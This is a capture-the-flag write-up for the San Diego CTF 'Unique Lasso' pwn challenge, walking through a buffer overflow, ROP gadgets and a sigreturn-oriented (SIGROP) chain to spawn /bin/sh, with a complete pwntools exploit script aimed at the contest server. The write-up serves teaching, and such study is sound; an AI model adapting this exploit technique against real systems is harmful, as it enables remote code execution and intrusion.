





## San Diego CTF: Unique Lasso [pwn]
##### *tl;dr: syscall doesn't ret but goes in a loop where rax value is taken from rdx -> from there we can pivot to a SIGROP to do an execve syscall*


## Challenge Information
#### We were provided with a chunky boi, 64-bit statically-linked binary. With this information alone, we can safely deduce that this challenge will contain a lot of useful gadgets that can be used for return oriented programming. Security protections enabled are NX and canary, however there is no PIE and only partial RELRO.

## Vuln Triage

#### Initially running the program promts us to guess how long a lasso is, then prints out our input. Opening up the binary in ghidra, we are immediately able to spot the vulnerability. Our input buffer is only allocated for 2 bytes but the fgets call reads up to 600, thus we have a clear buffer overflow. As it becomes clear that we need to do ROP, it's only a matter of finding the right gadgets to use.

```
0x00000000004005af : pop rax ; ret 
0x00000000004006a6 : pop rdi ; ret 
0x0000000000410b63 : pop rsi ; ret 
0x000000000044a0a5 : pop rdx ; ret 
0x000000000040125c : syscall (profit)
```
#### Using the ROPgadget utility (`ROPgadget --binary ./uniqueLasso > gadgets.txt`), we find a gold mine since we pretty much have gadgets to control what we place into registers as well as the address to the syscall instruction. So our plan here would be to use the gadgets to perform an `execve('/bin/sh\x00', 0, 0)` call. 

## Payload Crafting
#### From this [syscall table](https://filippo.io/linux-syscall-table/) we can see what we need to place in the registers for a specific syscall. The `rsi` and `rsi` registers can just be set to null, the `rax` register should be 59, and `rdi` should have a pointer to the '/bin/sh' string. Since we don't have a pointer to /bin/sh in memory, we need to place it ourselves.

#### We can first create a payload for a read() syscall. We can just refer to the linked syscall table to check what to fill in which registers. For this to work, we need to find a writable region in memory that isn't affected by randomization. The address `0x6b6000` works for us.

```python
#: EXPLOIT INTERACTION STUFF
context.arch = 'amd64'
pop_rdi = 0x4006a6
pop_rdx = 0x44a0a5
pop_rsi = 0x410b63
pop_rax = 0x4005af
syscall = 0x40125c

payload = cyclic(14)
#: read(stdin, 0x6b6000, 0x10)
payload += p64(pop_rdi)
payload += p64(0)
payload += p64(pop_rdx)
payload += p64(0x10)
payload += p64(pop_rsi)
payload += p64(0x6b6000)
payload += p64(pop_rax)
payload += p64(0x0)
payload += p64(syscall)

p.sendline(payload)
time.sleep(6.9)
p.sendline('/bin/sh\x00')
```


#### Running the script and verifying it in gdb shows that we have successfully writen the string to memory and we have a known pointer address to it. But there's a catch: the syscall instruction doesn't have a `ret` after it but instead continues to loop in an endless state.


#### However, the interesting detail to note is that it loops back to another syscall instruction and before that syscall instruction is executed, it moves the value from edx into eax. Since we can control the value of rdx, we can simply use it to influence what sycall gets called. For this part, the plan is to set the `rdx` value as `0xf` so that we can perform a SIGROP attack.

## Signal Return Oriented Programming
#### As the name of the technique implies, we will take advantage of the `rt_sigreturn` syscall to do our final payload. A quick summary of the technique taken from this [writeup](https://sec.alexflor.es/posts/2019/12/abusing-signals-with-sigrop-exploits/) states that *When a process receives a SIGRET signal, it takes the current stack frame and writes it to the registers. If you’re controlling the stack, then you can ostensibly create your own set of registers in a manner that places you in a more advantageous position during your exploit.* We can use this to setup registers to perform the execve call that we are aiming for.

```python
sigretframe = SigreturnFrame(kernel = 'amd64')
sigretframe.rax = 59
sigretframe.rdi = 0x6b6000 
sigretframe.rdx = 0
sigretframe.rsi = 0
sigretframe.rip = syscall
```


##### exploit.py
```python
from pwn import *

#: CONNECT TO CHALLENGE SERVERS
binary = ELF('./uniqueLasso', checksec = False)
#libc = ELF('./libc.so.6', checksec = False)

#p = process('./uniqueLasso')
#p = process('./uniqueLasso', env = {'LD_PRELOAD' : libc.path})
p = remote("lasso.sdc.tf", 1337)

#: GDB SETTINGS
breakpoints = ['break *main + 129', 'break *main']
#gdb.attach(p, gdbscript = '\n'.join(breakpoints))

#: EXPLOIT INTERACTION STUFF
context.arch = 'amd64'
pop_rdi = 0x4006a6
pop_rdx = 0x44a0a5
pop_rsi = 0x410b63
pop_rax = 0x4005af
syscall = 0x40125c

sigretframe = SigreturnFrame(kernel = 'amd64')
sigretframe.rax = 59
sigretframe.rdi = 0x6b6000
sigretframe.rdx = 0
sigretframe.rsi = 0
sigretframe.rip = syscall

payload = cyclic(14)
#: read(stdin, 0x6b6000, 0x10)
payload += p64(pop_rdi)
payload += p64(0)
payload += p64(pop_rdx)
payload += p64(0xf) #: syscall does not ret after, but goes in a loop where rdx is moved into rax
payload += p64(pop_rsi)
payload += p64(0x6b6000)
payload += p64(pop_rax)
payload += p64(0x0)
payload += p64(syscall)
payload += bytes(sigretframe)

#: PWN THY VULNS
p.recvuntil(b'long)\n')
p.sendline(payload)
time.sleep(6.9)
p.sendline('/bin/sh\x00')
p.interactive()
```
